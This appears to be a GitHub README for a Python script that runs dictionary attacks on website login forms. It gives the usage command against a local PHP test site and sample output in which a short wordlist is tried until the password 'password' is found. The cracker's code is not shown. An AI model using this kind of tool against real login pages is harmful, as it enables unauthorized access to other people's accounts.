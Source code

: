 # Password Cracker
## Python script for dictionary attacks on websites login forms.

# Usage:
	cd website
	php -S localhost:8000 &
	cd ../cracker
	python cracker.py "http://localhost:8000/" "passes.txt" "username" "submit" "username?password?submit" "Username or password is invalid"
 # Output:
	Data correctly loaded!
	['superstronkpassword', 'toor', 'obsd', '12345678', 'password', '']
	Data correctly prepared!
	[('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit'), ('username', 'username', 'password', 'toor', 'submit', 'submit'), ('username', 'username', 'password',
	'obsd', 'submit', 'submit'), ('username', 'username', 'password', '12345678', 'submit', 'submit'), ('username', 'username', 'password', 'password', 'submit', 'submit'), ('username', 'username', 'password', '', 'submit', 'submit')]
	[ 1/6 ] Sending  ('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit') for http://localhost:8000/
	[ 2/6 ] Sending  ('username', 'username', 'password', 'toor', 'submit', 'submit') for http://localhost:8000/
	[ 3/6 ] Sending  ('username', 'username', 'password', 'obsd', 'submit', 'submit') for http://localhost:8000/
	[ 4/6 ] Sending  ('username', 'username', 'password', '12345678', 'submit', 'submit') for http://localhost:8000/
	[ 5/6 ] Sending  ('username', 'username', 'password', 'password', 'submit', 'submit') for http://localhost:8000/
	Password found!
	Login: username
	Password: password
	[ 6/6 ] Sending  ('username', 'username', 'password', '', 'submit', 'submit') for http://localhost:8000/
